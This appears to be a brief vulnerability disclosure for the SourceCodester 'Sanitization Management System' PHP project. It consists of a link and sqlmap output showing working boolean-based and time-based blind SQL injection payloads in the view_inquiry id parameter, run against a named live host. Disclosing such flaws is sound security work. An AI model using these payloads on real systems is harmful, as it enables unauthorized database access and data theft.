

https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html


```
sqlmap identified the following injection point(s) with a total of 233 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=inquiries/view_inquiry&id=1' AND 8900=8900 AND 'VzZe'='VzZe

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=inquiries/view_inquiry&id=1' AND (SELECT 5602 FROM (SELECT(SLEEP(5)))hbGO) AND 'ApiP'='ApiP
---
[22:08:02] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[22:08:02] [INFO] fetched data logged to text files under '/home/cc/.local/share/sqlmap/output/ample2.v50to.cc'

[*] ending @ 22:08:02 /2023-08-15/

```

